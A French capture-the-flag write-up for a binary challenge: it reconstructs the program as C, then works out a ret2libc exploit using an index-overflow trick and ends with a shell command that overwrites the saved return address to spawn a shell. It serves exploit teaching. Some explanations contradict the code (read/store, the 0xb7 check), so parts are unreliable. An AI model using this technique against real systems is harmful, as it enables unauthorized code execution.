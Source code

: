 # Level 07

## Analyse du binaire

Lorsqu'on exécute le binaire, une "commande" est attendue sur l'entrée standard. On a le choix entre :

- **read** : lit un nombre à un index voulu
- **store** : stocke un nombre voulu à un index voulu
- **quit** : quitte le programme

Le code asm est assez long, on retrouve notamment les instructions :

- Initialisation de tableau :

```asm
rep stos DWORD PTR es:[edi],eax
```

- Calcul de la longueur d'une chaîne de caractère :

```asm
repnz scas al,BYTE PTR es:[edi]
```

- Comparaison entre deux chaînes de caractères :

```asm
repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

- Division d'un nombre par 3, en faisant une multiplication par `2^33 / 3 = 0xaaaaaaab` (voir sources) :

```asm
mov    DWORD PTR [ebp-0xc],eax
mov    ecx,DWORD PTR [ebp-0xc]
mov    edx,0xaaaaaaab
mov    eax,ecx
mul    edx
shr    edx,1
```

On peut réécrire un code source en C :

```c
void clear_stdin(void)
{
	int c; // ebp-0x9

	c = 0;
	while (c != 0xff)
	{
		c = getchar();
		if (c == '\n')
			return;
	}
}

int get_unum(void)
{
	uint nb; // ebp-0xc

	nb = 0;
	fflush(stdout);
	scanf("%u", &nb);
	clear_stdin();
	return nb;
}

int read_number(char *data)
{
	uint index; // ebp-0xc

	printf(" Index: ");
	index = get_unum();
	printf(" Number at data[%u] is %u\n", index, data[index << 2]);
	return 0;
}

int store_number(char *data)
{
	uint nb;	// ebp-0x10
	uint index; // ebp-0xc

	nb = 0;
	index = 0;
	printf(" Number: ");
	nb = get_unum();
	printf(" Index: ");
	index = get_unum();

	uint tmp = index / 3;
	tmp *= 3;

	if (index - tmp == 0 || nb >> 24 != 0xb7)
	{
		puts(" *** ERROR! ***");
		puts("   This index is reserved for wil!");
		puts(" *** ERROR! ***");
		return 1;
	}
	data[index << 2] = nb; // same as ((uint32*)data)[index]
	return 0;
}

int main(int argc, const char **argv, char **envp)
{
	char command[20];		 // esp+0x1b8 - esp+0x1c8
	uint has_command_failed; // esp+0x1b4
	char *data[400];		 // esp+0x24
	char **av;				 // esp+0x1c
	char **env;				 // esp+0x18

	av = argv;
	env = envp;
	has_command_failed = 0;
	bzero(command, 20);
	bzero(data, 400);

	while (av[0] != NULL)
	{
		memset(av[0], 0, strlen(av[0]));
		av += 4;
	}

	while (env[0] != NULL)
	{
		memset(env[0], 0, strlen(env[0]));
		env += 4;
	}

	puts("----------------------------------------------------");
	puts("   Welcome to wil's crappy number storage service!  ");
	puts("----------------------------------------------------");
	puts("Commands:");
	puts("    store - store a number into the data storage");
	puts("    read  - read a number from the data storage");
	puts("    quit  - exit the program");
	puts("----------------------------------------------------");
	puts("   wil has reserved some storage :");
	puts("----------------------------------------------------");

	while (1)
	{
		printf("Input command: ");
		has_command_failed = 1;
		fgets(command[1], 20, stdin);

		command[strlen(command) - 1] = '\0';

		if (!strncmp(command, "store", 5))
			has_command_failed = store_number(data);
		else if (!strncmp(command, "read", 4))
			has_command_failed = read_number(data);
		else if (!strncmp(command, "quit", 4))
			return 0;

		if (has_command_failed)
			printf(" Failed to do %s command\n", command);
		else
			printf(" Completed %s command successfully\n", command);

		bzero(command, 20);
	}
}
```

## Exploit

On se doute qu'il faut utiliser la commande **read** pour écraser des valeurs intéressantes de la mémoire. En regardant le code de la fonction _store_number_, on remarque que notre index subit un décalage binaire à gauche de 2, soit une multiplication par 4. Le nombre que nous allons donné à la commande read sera donc stocké à l'adresse `DATA_ADDR + INDEX * 4`.

Cependant, on note aussi que l'index ne doit pas être un multiple de 3 et que le 1er octet du nombre que ne voulons stocké doit être différent de `0xb7`.

On peut essayer de faire un **ret2libc** pour lancer un shell. Pour ce faire, il nous faut l'adresse de la fonction _system_ et une adresse pointant sur la chaîne de caractères "/bin/sh". De plus on a besoin de l'adresse de notre buffer et l'**eip sauvegardé** de la fonction **main** à écraser. Comme vu au level04, avec gdb on obtient les adresses suivantes :

- system `0xf7e6aed0` (hex) = `4159090384` (dec)
- "/bin/sh" `0xf7f897ec` (hex) = `4160264172` (dec)
- eip `0xffffd60c`
- buffer `0xffffd444`

On doit donc :

- stocker l'adresse de la fonction _system_ à l'**eip sauvegardé**
- stocker l'adresse de la chaîne de caractères "/bin/sh" à **eip sauvegardé + 4**
- quitter le programme pour sortir de la fonction _main_ et exécuter la fonction système

On commence par faire la différence entre l'adresse de notre buffer et l'**eip sauvegardé** : `0xffffd60c - 0xffffd444 = 1C8 (hex) = 456 (dec)`. On doit donc diviser ce nombre par 4, ce qui nous donne 114. Problème : cet index est un multiple de 3 et la condition n'est donc pas respectée dans la fonction _store_number_. Sachant que la condition sur la division par 3 est fait **avant** le décalage binaire, on peut modifier les 2 premiers bits de notre index, puisque lors du décalage ces derniers vont "disparaître". On peut donc par exemple modifier le 1er bit à 1 ce qui nous donne :

```
0000 0000 0000 0000 0000 0000 0111 0010 (bin) = 72 (hex) = 114 (dec)
1000 0000 0000 0000 0000 0000 0111 0010 (bin) = 80000072 (hex) = 2147483762 (dec)
```

Le nombre 214748376 n'est pas un multiple de 3 : `2147483762 = 3 * 715827920 + 2`.

Pour l'index suivant qui est 116, cela ne pose pas de problème car il n'est pas un multiple de 3.

Finalement on exécute la commande :

```bash
(echo "store" ; echo "4159090384" ; echo "2147483762" ; echo "store"; echo "4160264172" ; echo "116" ; echo "quit"; cat) | ./level07
```

## Sources

- https://stackoverflow.com/questions/63417818/why-does-division-by-3-require-a-rightshift-and-other-oddities-on-x86
- https://aakinshin.net/posts/perfex-div/
